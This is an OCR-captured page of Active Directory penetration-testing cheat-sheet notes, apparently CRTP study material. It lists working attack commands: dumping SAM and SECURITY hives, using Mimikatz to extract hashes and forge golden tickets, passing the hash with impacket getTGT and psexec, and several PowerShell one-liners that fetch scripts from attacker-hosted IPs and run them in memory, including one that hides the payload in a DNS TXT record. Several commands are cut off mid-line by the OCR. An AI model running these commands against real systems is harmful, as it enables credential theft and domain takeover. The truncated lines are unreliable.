 reg save hklm\sam filename1.hiv
reg save hklm\security filename2.hiv
# Dumping the hashes with Mimikatz and LSAdump
.\mimikatz.exe “privilege::debug” “token::elevate” “lsadump::sam filename1.hiv filename2.hiv”
Create a Golden ticket
# sid = sid of the domain
# aes256 = the aes256 of the krbtgt
Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid: S-1-5-21-719815819-3726368948-
Impacket
PassTheHash
Info
I wish to execute this attack remotely then use impacket python script gettgt.py
 which will use a password, hash or aesKey, it will request a TGT and save it as ccache.
python getTGT.py -dc-ip 192.168.1.105 -hashes :32196b56ffe6f45e294117b91a83bf38 ignite.local/Administrator
Info
with the help of above command, you will be able to request Kerberos authorized ticket in the form of ccache whereas
with the help of the following command you will be able to inject the ticket to access the resource.
export KRB5CCNAME=Administrator.ccache; psexec.py -dc-ip 192.168.1.105 -target-ip 192.168.1.105 -no-pass -k ignite.local/Administra
POC
PS exec
# open cmd on remote server with system privilege
psexec \\pc1 -u user -p password -s -i cmd
CRTP 8
PowerShell Download and execute in memory
powershell "IEX(New-Object Net.WebClient).downloadString(''http://172.16.100.111/InvokePowerShellTcpEx.ps1'')"
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile - #From cmd download a
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://1
iex (iwr '10.10.14.9:8000/ipw.ps1') #From PSv3
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://10.10.14.9:8000/ipw.ps1',$false);$h.send();iex $h.responseText
$wr = [System.NET.WebRequest]::Create("http://10.10.14.9:8000/ipw.ps1") $r = $wr.GetResponse() IEX ([System.IO.StreamReader]($r.GetResp
#https://twitter.com/Alh4zr3d/status/1566489367232651264
#host a text record with your payload at one of your (unburned) domains and do this:
powershell . (nslookup -q=txt http://some.owned.domain.com)[-1]
# Download exe file
iwr http://172.16.100.111/Loader.exe -OutFile C:\Users\Public\Loader.exe
Import Active Directory Module
To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.
PS C:\> Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
PS C:\> Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1
PS C:\> Get-Command -Module ActiveDirectory
Domain Enumeration
Quick enumeration
Get-NetDomain #Basic domain info
#User info